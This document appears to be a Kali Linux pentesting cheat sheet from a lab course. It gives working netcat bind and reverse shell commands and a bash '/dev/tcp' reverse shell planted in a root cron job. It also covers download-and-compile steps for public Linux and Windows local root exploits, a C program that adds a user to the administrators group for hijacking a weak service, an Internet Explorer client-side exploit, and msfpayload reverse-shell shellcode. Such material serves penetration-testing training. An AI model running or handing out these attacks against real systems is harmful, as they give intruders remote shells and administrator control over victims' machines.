 # Pentesting with Kali


### Netcat

Kali              192.168.2.10
Windows           192.168.2.12

### Chat
Windows           nc -nlvp 4444
Kali              nc -nv 192.168.2.12 4444

### Bind shell
Windows           nc -nlvp 4444 -e cmd.exe
Kali              nc -nv 192.168.2.12 4444

### Reverse shell
Windows           nc -nlvp 4444
Kali              nc -nv 192.168.2.12 4444 -e /bin/bash
------------------------------------------------------------------------------------------------------

### Ncat is part of the nmap package.

Files needed for Windows 7: ncat.exe, libeay32.dll, ssleay32.dll

### Bind shell
Windows           ncat -nlvp 4444 -e cmd.exe --allow 192.168.2.10 --ssl
Linux             ncat -nv 192.168.2.12 4444 --ssl
------------------------------------------------------------------------------------------------------

### Wireshark

Capture > Interfaces > choose your interface.
To filter out unwanted traffic choose Options.
Create a capture filter to only listen for traffic on the Windows box on TCP port 4444.
     host 192.168.2.12 and tcp port 4444
     Start

Now generate some traffic with netcat.

Go to Wireshark and hit Stop.
Right click on any packet > Follow TCP Stream. You should be able to see clear text.
------------------------------------------------------------------------------------------------------

### tcpdump

tcpdump -r <capture.pcap>                              ### Read the file
tcpdump -n src host 192.168.2.10 -r <capture.pcap>     ### Specify a source
tcpdump -n dst host 192.168.2.12 -r <capture.pcap>     ### Specify a destination
tcpdump -n port 443 -r <capture.pcap>                  ### Specify a port
tcpdump -nX -r <capture.pcap>                          ### Read the file and dump in hex format
------------------------------------------------------------------------------------------------------

### Google Hacking

site:target.com                                        ### Approximate web presence of an organization
site:target.com -site:www.target.com                   ### Subdomains that may exist
filetype
inurl
intitle
------------------------------------------------------------------------------------------------------

### debug.exe

cp /usr/share/windows-binaries/nc.exe /root/
cp /usr/share/windows-binaries/exe2bat.exe /root/
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
------------------------------------------------------------------------------------------------------

## Local Privilege Escalation - Linux

ssh user@<target IP>
id                                                     ### Show user/group permissions
cat /etc/shadow                                        ### Access denied
/etc/issue                                             ### OS info
uname -a                                               ### Kernel info

wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o exploit exploit.c                               ### Compile exploit
./exploit                                              ### Run exploit
id                                                     ### Show user/group permissions
cat /etc/shadow

#### Option 2 - using Kali
searchsploit linux local root
Mempodipper - Linux Local Root => 2.6.39 (32-bit & 64-bit)                /linux/local/18411.c
cp /usr/share/exploitdb/platforms/linux/local/18411.c /tmp/
cd /tmp/
gcc -o exploit 18411.c                                 ### Compile exploit
service apache2 start                                  ### Start apache
netstat -antp | grep apache                            ### Verify the service is running
cp /tmp/exploit /var/www/                              ### Copy the exploit to the web root
------------------------------------------------------------------------------------------------------

### Local Privilege Escaltion - Windows XP, 2003

searchsploit ms11-080
cp /usr/share/exploitdb/platforms/windows/local/18176.py /tmp/
cd /usr/share/pyinstaller/
pyinstaller -F -n evil.exe /tmp/18176.py
cp evil.exe/dist/evil.exe /tmp/
service apache2 start                                  ### Start apache
netstat -antp | grep apache                            ### Verify the service is running
cp /tmp/evil.exe /var/www/                             ### Copy the exploit to the web root
------------------------------------------------------------------------------------------------------

### Weak Services - Windows

#### Windows
Install vuln app
services.msc
Find the service > RC > Properties
Note the path to executable
cd to that directory
icacls vulnapp.exe                                     ### Misconfigured if the Everyone group has access

#### Kali
cat adduser.c
#include <stdlib.h>
int main ()
{
   int i;
   i=system ("net localgroup administrators lee /add");
   return 0;
}

i586-mingw32msvc-gcc adduser.c -o adduser.exe          ### Cross compile code
file adduser.exe
mv adduser.exe /var/www/

#### Windows
Open IE to <kali-ip>/adduser.exe
move vulnapp.exe vulnapp.exe-old
copy c:\users\lee\Downloads\adduser.exe vulnapp.exe
log off
log back on
services.msc
Restart vulnapp
The account with Users privs should how have Admin privs
------------------------------------------------------------------------------------------------------

### Weak Services - Linux

find / -perm -2 ! -type l -ls 2>/dev/null              ### Search for WORLD writable files.

Look for any cron jobs that are WORLD writable running at root.
nano /etc/cron.hourly/test.sh
bash -i >& /dev/tcp/<kali-ip>/443 0>&1

#### Kali
nc -lvp 443
Once the cron job runs, you should have a shell with root privs.
id
------------------------------------------------------------------------------------------------------

$ Client Side Attacks

MS12-037
CVE 2012-1876
wget -O exploit.html http://www.exploit-db.com/download/24017
mv exploit.html /var/www/
service apache2 start

#### Windows
Open IE to <kali-ip>/exploit.html
netstat -an:find “4444”                                ### Look for a bind shell

Kali
nc -v <target-IP> 4444
------------------------------------------------------------------------------------------------------

### Replacing Shellcode

msfpayload windows/shell_reverse_tcp LHOST=192.168.2.10 LPORT=443 J
314 bytes in size
342-314=28 bytes left over
Copy over the new buffer, then add 28 nops.
%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090
nc -lvp 443

#### Windows
Open IE to <kali-ip>/exploit.html

